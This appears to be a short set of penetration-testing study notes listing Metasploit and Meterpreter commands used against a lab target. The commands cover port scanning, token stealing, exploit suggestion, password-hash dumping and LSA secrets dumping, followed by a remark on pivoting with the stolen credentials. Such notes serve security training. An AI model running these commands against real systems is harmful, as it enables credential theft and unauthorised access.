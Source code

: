 # Meterpreter
MSF scanning target
msf6: `db_nmap -sV -p- -T5 -A 10.10.10.15`
We can thereafter query for `services` or `hosts`

We can steel tokens with `steal_token <nr>`

we can get suggestions for exploits: `post/multi/recon/local_exploit_suggester  `
We can get user id from session: `meterpreter > getuid`

### MSF - Dumping Hashes
`meterpreter > hashdump`
`lsa_dump_sam`

### MSF - Meterpreter LSA Secrets Dump
`meterpreter > lsa_dump_secrets`

From this point, if the machine was connected to a more extensive network, we could use this loot to pivot through the system, gain access to internal resources and impersonate users with a higher level of access if the overall security posture of the network is weak.

